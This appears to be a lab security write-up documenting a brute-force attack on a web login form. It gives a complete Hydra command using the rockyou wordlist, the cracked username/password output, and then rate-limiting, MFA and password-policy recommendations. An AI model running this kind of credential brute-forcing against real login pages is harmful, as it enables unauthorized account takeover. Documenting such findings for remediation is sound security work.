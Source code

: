 ## 📌 Breach Name: **HTTP-BruteForceAllCreds**

---

## 📌 Vulnerability Type:
- **CWE-307: Improper Restriction of Excessive Authentication Attempts**
- **CWE-308: Use of Single-Factor Authentication**
- **CWE-521: Weak Password Requirements**

![alt text](https://cwe.mitre.org/data/images/CWE-307-Diagram.png)

--- 
## 📖 Exploitation Steps:
1. **Prepared rockyou.txt containing common words.**

2. **Run Hydra:**
   ```bash
   hydra \
   -L /media/atabiti/atabiti_ssd/rockyou.txt \
   -P /media/atabiti/atabiti_ssd/rockyou.txt \
   10.11.100.193 http-get-form \
   "/:page=signin&username=^USER^&password=^PASS^&Login=Login:Wrong"

### Hydra returned multiple valid credentials:


    [80][http-get-form] host: 10.11.100.193   login: monkey   password: shadow
    [80][http-get-form] host: 10.11.100.193   login: 123456   password: shadow
    [80][http-get-form] host: 10.11.100.193   login: 12345   password: shadow
    [80][http-get-form] host: 10.11.100.193   login: 123456789   password: shadow
    [80][http-get-form] host: 10.11.100.193   login: password   password: shadow
    [80][http-get-form] host: 10.11.100.193   login: iloveyou   password: shadow
    [80][http-get-form] host: 10.11.100.193   login: princess   password: shadow

---

### 🔴 Critical Security Impacts:

Key impacts include:

- Complete compromise of multiple user accounts across the system
- Access to sensitive user data and functionality through authenticated sessions
---
## 📌 Security Recommendations:

1. **Implement Rate Limiting and Account Lockout:**
   - Restrict the number of login attempts per IP and per account
   - Temporarily lock accounts after a specified number of failed attempts
   - Implement exponential backoff for repeated login failures

2. **Add Multi-layered Authentication Controls:**
   - Implement CAPTCHA or reCAPTCHA after initial failed attempts
   - Consider multi-factor authentication for sensitive accounts
   - Use device fingerprinting to detect suspicious login patterns

3. **Strong Monitoring and Alerting:**
   - Monitor and alert on multiple failed login attempts from the same IP
   - Track login attempts across distributed systems to prevent bypass
   - Implement real-time anomaly detection for authentication events

4. **Improve Password Policies:**
   - Enforce strong, unique passwords per account
   - Implement password complexity requirements
   - Check passwords against known breached password databases

5. **Additional Security Measures:**
   - Use secure cookies and proper session management
   - Consider IP-based restrictions for administrative accounts
   - Implement proper logging for security events and auditing


